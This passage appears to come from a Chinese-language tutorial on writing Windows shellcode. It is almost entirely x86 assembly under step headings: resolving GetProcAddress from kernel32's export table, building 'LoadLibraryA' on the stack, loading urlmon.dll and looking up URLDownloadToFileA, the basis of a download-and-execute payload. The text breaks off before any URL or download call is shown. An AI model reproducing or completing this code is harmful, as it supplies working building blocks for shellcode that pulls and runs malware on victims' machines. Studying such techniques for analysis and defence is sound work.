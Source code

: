 ##### 计算GetProcAddress地址

    mov esi, [edx + 24h]
    add esi, ebx            ; esi = 序号数组地址, AddressOfNameOrdinal
    mov cx, [esi + ecx * 2] ; cx = 计算出的序号值
    dec ecx ;
    mov esi, [edx + 1Ch]
    add esi,ebx; esi＝函数地址的起始位置，AddressOfFunction
    mov edx, [esi + ecx * 4]
    add edx,ebx ;利用序号值，得到出edx=GetProcAddress的地址

##### 调用GetProcAddress查找LoadLibraryA

    xor ecx, ecx
    push ebx; kernal32 基址
    push edx; GetProcAddress地址
    push ecx; 0
    push 0x41797261; Ayra           
    push 0x7262694c; rbiL
    push 0x64616f4c; daoL           
    push esp; "LoadLibrary"
    push ebx; kernal32.dll基址
    call edx

##### 调用LoadLibrary载入urlmon.dll

    add esp,0xc 
    pop ecx
    push eax 
    push ecx
    mov cx,0x6c6c;ll
    push ecx
    push 0x642e6e6f; d.no
    push 0x6d6c7275; mlru
    push esp; "urlmon.dll"
    call eax; LoadLibrary("urlmon.dll")
    add esp, 0x10

##### 调用GetProcAddress查找URLDownloadToFileA地址

    mov edx,[esp+0x4]
    xor ecx, ecx
    push ecx
    mov cx,0x4165;Ae
    push ecx
    push 0x6c69466f; liFo
    push 0x5464616f; Tdao
    push 0x6c6e776f; lnwo
    push 0x444c5255; DLRU
    push esp
    push eax; urlmon.dll地址
    call edx
    add esp,0x14
